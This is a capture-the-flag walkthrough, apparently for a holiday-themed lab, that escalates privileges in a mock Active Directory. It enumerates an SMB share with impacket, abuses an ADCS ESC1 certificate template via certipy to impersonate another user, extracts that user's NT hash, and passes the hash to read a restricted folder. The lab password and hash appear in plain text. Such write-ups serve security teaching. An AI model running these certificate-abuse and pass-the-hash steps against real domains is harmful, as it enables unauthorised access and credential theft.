alabaster@ssh-server-vm:~$ cat alabaster_todo.md 
# Geese Islands IT & Security Todo List

- [X] Sleigh GPS Upgrade: Integrate the new "Island Hopper" module into Santa's sleigh GPS. Ensure Rudolph's red nose doesn't interfere with the signal.
- [X] Reindeer Wi-Fi Antlers: Test out the new Wi-Fi boosting antler extensions on Dasher and Dancer. Perfect for those beach-side internet browsing sessions.
- [ ] Palm Tree Server Cooling: Make use of the island's natural shade. Relocate servers under palm trees for optimal cooling. Remember to watch out for falling coconuts!
- [ ] Eggnog Firewall: Upgrade the North Pole's firewall to the new EggnogOS version. Ensure it blocks any Grinch-related cyber threats effectively.
- [ ] Gingerbread Cookie Cache: Implement a gingerbread cookie caching mechanism to speed up data retrieval times. Don't let Santa eat the cache!
- [ ] Toy Workshop VPN: Establish a secure VPN tunnel back to the main toy workshop so the elves can securely access to the toy blueprints.
- [ ] Festive 2FA: Roll out the new two-factor authentication system where the second factor is singing a Christmas carol. Jingle Bells is said to be the most secure.
````
As per the TODO List Alabster is planning to implement ${\color{green}Gingerbread}$  cookie cache 🍪 
</details>

### Active Directory
Difficult: 🎄🎄🎄🎄

Go to Steampunk Island and help Ribb Bonbowford audit the Azure AD environment. What's the name of the secret file in the inaccessible folder on the FileShare?

> [!TIP]
> Misconfiguration ADventures
> From: Alabaster Snowball
> Objective: Active Directory
> Certificates are everywhere. Did you know Active Directory (AD) uses certificates as well? Apparently the service used to manage them can have misconfigurations too.

<details>
 <summary>Solution</summary>

Ribb Bonbowford (Coggoggle Marina)
Hello, I'm Ribb Bonbowford. Nice to meet you!

I'm worried because our Active Directory server is hosted there and Wombley Cube's research department uses one of its fileshares to store their sensitive files.

I'd love for you to help with auditing our Azure and Active Directory configuration and ensure there's no way to access the research department's data.

Since you have access to Alabaster's SSH account that means you're already in the Azure environment. Knowing Alabaster, there might even be some useful tools in place already.

Ribb Bonbowford expressed his concerns about the AD and hinted we are already in the AD environment. Let's use the information obtained from previous tasks and work for this challenge.

Upon listing the files in Alabaster home directory we see the impacket tool suite is present. Let's use the smbclient package to access the SMB share using credentials obtained in Azure Key vault. 

````
alabaster@ssh-server-vm:~/impacket$ smbclient.py elfy@10.0.0.53
Impacket v0.11.0 - Copyright 2023 Fortra
Password:
````
```
# shares
ADMIN$
C$
D$
FileShare
IPC$
NETLOGON
SYSVOL
# use FIleShare
# ls
drw-rw-rw-          0  Thu Jan 18 01:12:55 2024 .
drw-rw-rw-          0  Thu Jan 18 01:12:52 2024 ..
-rw-rw-rw-     701028  Thu Jan 18 01:12:54 2024 Cookies.pdf
-rw-rw-rw-    1521650  Thu Jan 18 01:12:55 2024 Cookies_Recipe.pdf
-rw-rw-rw-      54096  Thu Jan 18 01:12:55 2024 SignatureCookies.pdf
drw-rw-rw-          0  Thu Jan 18 01:12:54 2024 super_secret_research
-rw-rw-rw-        165  Thu Jan 18 01:12:55 2024 todo.txt
# get todo.txt
# exit
alabaster@ssh-server-vm:~/impacket$ cat todo.txt 
1. Bake some cookies.
2. Restrict access to C:\FileShare\super_secret_research to only researchers so everyone cant see the folder or read its contents
3. Profit
````
 Next task would be to get access to **C:\FileShare\super_secret_research** 

 Remember the task Reportinator where it says there is a ADCS vulnerability in the AD Environment, we will explore that. Since we have the certipy already present in Alabaster host we will use it to find if there are any 
  
````
alabaster@ssh-server-vm:~/impacket$ certipy find -vulnerable -u elfy -p J4\`ufC49/J4766 -dc-ip 10.0.0.53 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://10.0.0.53:636 - ssl
[+] Default path: DC=northpole,DC=local
[+] Configuration path: CN=Configuration,DC=northpole,DC=local
[+] Adding Domain Computers to list of current user's SIDs
[+] List of current user's SIDs:
     NORTHPOLE.LOCAL\Domain Computers (S-1-5-21-1242573302-2981867581-2555354284-515)
     NORTHPOLE.LOCAL\Users (NORTHPOLE.LOCAL-S-1-5-32-545)
     NORTHPOLE.LOCAL\Everyone (NORTHPOLE.LOCAL-S-1-1-0)
     NORTHPOLE.LOCAL\Domain Users (S-1-5-21-1242573302-2981867581-2555354284-513)
     NORTHPOLE.LOCAL\Authenticated Users (NORTHPOLE.LOCAL-S-1-5-11)
     NORTHPOLE.LOCAL\elfy (S-1-5-21-1242573302-2981867581-2555354284-1104)
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[+] Trying to resolve 'npdc01.northpole.local' at '10.0.0.53'
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via CSRA
[+] Trying to get DCOM connection for: 10.0.0.53
[!] Got error while trying to get CA configuration for 'northpole-npdc01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[+] Connected to remote registry at 'npdc01.northpole.local' (10.0.0.53)
[*] Got CA configuration for 'northpole-npdc01-CA'
[+] Resolved 'npdc01.northpole.local' from cache: 10.0.0.53
[+] Connecting to 10.0.0.53:80
[*] Saved BloodHound data to '20240118082058_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240118082058_Certipy.txt'
[*] Saved JSON output to '20240118082058_Certipy.json'
````
The output of Certipy shows that it is vulnerable to ESC2
[!] Vulnerabilities
ESC1 : 'NORTHPOLE.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
   
ESC1 is when a certificate template permits Client Authentication and allows the enrollee to supply an arbitrary Subject Alternative Name (SAN).
For ESC1, we can request a certificate based on the vulnerable certificate template and specify an arbitrary UPN or DNS SAN with the -upn and -dns parameter, respectively.

````
alabaster@ssh-server-vm:~$ certipy req -u elfy@northpole.local -p J4\`ufC49/J4766 -ca northpole-npdc01-CA -dc-ip 10.0.0.53 -template NorthPoleUsers -upn alabaster@northpole.local -dns npdc01.northpole.local
````
````
alabaster@ssh-server-vm:~$ certipy req -u elfy@northpole.local -p J4\`ufC49/J4766 -ca northpole-npdc01-CA -dc-ip 10.0.0.53 -template NorthPoleUsers -upn alabaster@northpole.local
````
````
alabaster@ssh-server-vm:~$ certipy auth -pfx alabaster.pfx -dc-ip 10.0.0.53 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: alabaster@northpole.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERROR_CLIENT_NOT_TRUSTED(Reserved for PKINIT)
````
Could not get anything for alabaster let's search if we can find any other used for whom we can request a certificate.
````
alabaster@ssh-server-vm:~/impacket$ GetADUsers.py -all -dc-ip 10.0.0.53 'northpole.local/elfy:J4`ufC49/J4766'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Querying 10.0.0.53 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
alabaster                                             2024-01-19 01:02:52.517117  2024-01-19 01:16:50.870757 
Guest                                                 <never>              <never>             
krbtgt                                                2024-01-19 01:10:45.513065  <never>             
elfy                                                  2024-01-19 01:13:05.023950  2024-01-19 21:58:23.893726 
wombleycube                                           2024-01-19 01:13:05.164594  2024-01-19 21:56:04.315004 
````
Wombleycube could help us, let's relauch certipy with Wombley
````
alabaster@ssh-server-vm:~$ certipy req -u elfy@northpole.local -p J4\`ufC49/J4766 -ca northpole-npdc01-CA -dc-ip 10.0.0.53 -template NorthPoleUsers -upn wombleycube@northpole.local
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 22
[*] Got certificate with UPN 'wombleycube@northpole.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'wombleycube.pfx'
alabaster@ssh-server-vm:~$ certipy auth -pfx wombleycube.pfx -dc-ip 10.0.0.53 -debugCertipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: wombleycube@northpole.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'wombleycube.ccache'
[*] Trying to retrieve NT hash for 'wombleycube'
[*] Got hash for 'wombleycube@northpole.local': aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23
````
Let's connect to the fileshare with wombleycube hash and read what is inside ** super_secret_research**
````
alabaster@ssh-server-vm:~/impacket$ smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23 northpole.local/wombleycube@10.0.0.53
# use FileShare
# ls
drw-rw-rw-          0  Fri Jan 19 01:14:00 2024 .
drw-rw-rw-          0  Fri Jan 19 01:13:56 2024 ..
-rw-rw-rw-     701028  Fri Jan 19 01:13:59 2024 Cookies.pdf
-rw-rw-rw-    1521650  Fri Jan 19 01:14:00 2024 Cookies_Recipe.pdf
-rw-rw-rw-      54096  Fri Jan 19 01:14:00 2024 SignatureCookies.pdf
drw-rw-rw-          0  Fri Jan 19 01:13:59 2024 super_secret_research
-rw-rw-rw-        165  Fri Jan 19 01:14:00 2024 todo.txt
# cd super_secret_research
# ls
drw-rw-rw-          0  Fri Jan 19 01:14:00 2024 .
drw-rw-rw-          0  Fri Jan 19 01:14:00 2024 ..
-rw-rw-rw-        231  Fri Jan 19 01:14:00 2024 InstructionsForEnteringSatelliteGroundStation.txt
# get InstructionsForEnteringSatelliteGroundStation.txt
````
The task is completed by giving the name of the file.

The text file contained

$\color{yellow}{\textsf{Note to self:}}$

$\color{gold}{\textsf{To enter the Satellite Ground Station (SGS), say the following into the speaker:}}$

$\color{yellow}{\textsf{And he whispered, 'Now I shall be out of sight;}}$
$\color{gold}{\textsf{So through the valley and over the height.'}}$
$\color{yellow}{\textsf{And he'll silently take his way.}}$

</details>

